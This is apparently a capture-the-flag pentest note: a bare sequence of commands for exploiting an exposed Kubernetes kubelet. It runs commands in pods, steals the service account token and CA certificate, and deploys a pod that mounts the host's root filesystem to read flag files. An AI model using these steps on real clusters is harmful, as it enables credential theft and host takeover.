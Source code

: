```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

```bash - kali
curl https://$TARGET:10250/pods -k
```

```bash - kali
git clone https://github.com/cyberark/kubeletctl
```

```bash - kali
curl -LO https://github.com/cyberark/kubeletctl/releases/download/v1.7/kubeletctl_linux_amd64
```

```bash - kali
chmod a+x ./kubeletctl_linux_amd64  
```

```bash - kali
sudo mv ./kubeletctl_linux_amd64 /usr/local/bin/kubeletctl
```

```bash - kali
kubeletctl --server $TARGET pods
```

```bash - kali
kubeletctl --server $TARGET scan rce
```

```bash - kali
kubeletctl --server $TARGET exec "id" -p nginx -c nginx
```

```bash - kali
kubeletctl --server $TARGET exec "cat /var/run/secrets/kubernetes.io/serviceaccount/token" -p nginx -c nginx  
```

```bash - kali
kubeletctl --server $TARGET exec "cat /var/run/secrets/kubernetes.io/serviceaccount/ca.crt" -p nginx -c nginx
```

```bash - kali
export token="eyJhbGciOiJSUzI1Ni....."
```

Save the ca.crt output to a file named "ca.crt"

```bash - kali
kubectl --token=$token --certificate-authority=ca.crt --server=https://$TARGET:443 get pods
```

```bash - kali
kubectl --token=$token --certificate-authority=ca.crt --server=https://$TARGET:443 auth can-i --list
```

---

f.yaml

```yaml - kali
apiVersion: v1
kind: Pod
metadata:
  name: nginxt
  namespace: default
spec:
  containers:
  - name: nginxt
    image: nginx:1.14.2
    volumeMounts:
    - mountPath: /root
      name: mount-root-into-mnt
  volumes:
  - name: mount-root-into-mnt
    hostPath:
       path: /
  automountServiceAccountToken: true
  hostNetwork: true
```

---

```bash - kali
kubectl --token=$token --certificate-authority=ca.crt --server=https://$TARGET:443 apply -f f.yaml  
```

```bash - kali
kubectl --token=$token --certificate-authority=ca.crt --server=https://$TARGET:443 get pods
```

```bash - kali
kubeletctl --server $TARGET exec "cat /root/home/user/user.txt" -p nginxt -c nginxt  
```

```bash - kali
kubeletctl --server $TARGET exec "cat /root/root/root.txt" -p nginxt -c nginxt
```


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`

